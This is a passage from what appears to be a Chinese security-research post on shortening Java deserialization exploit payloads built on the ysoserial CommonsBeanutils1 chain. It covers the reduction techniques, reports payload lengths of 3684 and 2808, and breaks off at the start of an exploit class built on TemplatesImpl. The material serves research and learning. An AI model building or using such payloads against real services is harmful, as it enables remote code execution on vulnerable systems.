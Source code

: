 ```java
 *
 */
```

然后，或许我们可以尝试一下将 java 包的路径缩短？

由于欠缺了太多知识，这里决定直接去看文章学习吧，先看 4ra1n 师傅的

前置
--

### 缩短技术学习

4ra1n 师傅以 CommonsBeanutils1 为例作出了总结，缩短 Paylaod 的重点在于三个部分：

- 序列化数据本身的缩小
- 针对`TemplatesImpl`中`_bytecodes`字节码的缩小
- 对于执行的代码如何缩小（`STATIC`代码块）

这里需要队 CommonsBeanutils1 这条链子有一些了解，所以我先去调试了一遍，理解了一下 ysoserial 的构造，在有了之前的经验之后这里实际上还是得心应手的，一个小时就回来了。

那么这里我们来看 CommonsBeanutils1 是怎样被缩小的。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-9a1155da54ab5061af4dea4c591bacff53292d82.png)

可以看到，这里的长度为 3684，不同的 Java 版本之间可能会存在差异，但是总之就差不多这么个数

```java
System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())).length());
```

我们可以用这个代码来直接进行 base64 后长度的确认

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-35e8f7d878b98cf8d5fa6896e3ce0d2298ff99be.png)

可以看到我们自己手捏出来的 exp 长度为 2808

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.Base64;
import java.util.PriorityQueue;

public class CB1test {
    public CB1test() throws NotFoundException {
    }

    public static class StubTransletPayload extends AbstractTranslet {
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
        }
```
